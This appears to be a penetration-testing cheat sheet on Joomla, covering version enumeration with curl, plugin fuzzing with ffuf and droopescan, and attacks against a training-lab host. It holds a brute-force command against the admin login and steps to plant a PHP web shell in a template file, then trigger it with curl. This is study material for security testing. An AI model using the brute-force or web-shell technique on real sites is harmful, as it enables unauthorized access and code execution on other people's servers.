


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Joomla

## General Information

Joomla is commonly used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its browser's favicon (Figure 1).

<figure><figcaption><p>Figure 1: Joomla's favicon.</p></figcaption></figure>

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Enumeration

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>



```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```



```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```



In certain installs, we may be able to discover the version from JavaScript files:




```bash
curl -s http://dev.inlanefreight.local/media/system/js
```





```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```





```bash
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```





```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -
```




Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)).


```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```


> [Metasploit's joomla\_plugins](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_plugins/)

### Automated

#### droopescan <a href="#droopescan" id="droopescan"></a>

[droopescan](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well.


```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```


## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### joomla-bruteforce <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

> _Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to brute-forcing an account. But it isn't enabled by default._

The default administrator account is `admin` and the password is set at install time. We can use [joomla-bruteforce](https://github.com/ajnik/joomla-bruteforce) to brute force for credentials:


```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```


> [joombrute](https://github.com/0rbz/JoomBrute) | [Metasploit's joomla\_bruteforce\_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla\_bruteforce\_login/) | [nmap's http-joomla-brute](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) | [nmap's http-form-brute](https://nmap.org/nsedoc/scripts/http-form-brute.html)

### RCE <a href="#code_execution" id="code_execution"></a>

#### **Web Shell**

1. Log in with the obtained credentials at `/administrator`.
2. Navigate to `Templates` and choose one.
3. Click on a page, such as `error.php`, to pull up the source code.
4. Add a PHP webshell, such as `system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);`.
5. Click `Save & Close`.
6. Connect to the webshell for code execution.

<figure><figcaption></figcaption></figure>


```bash
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```


## Known Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)
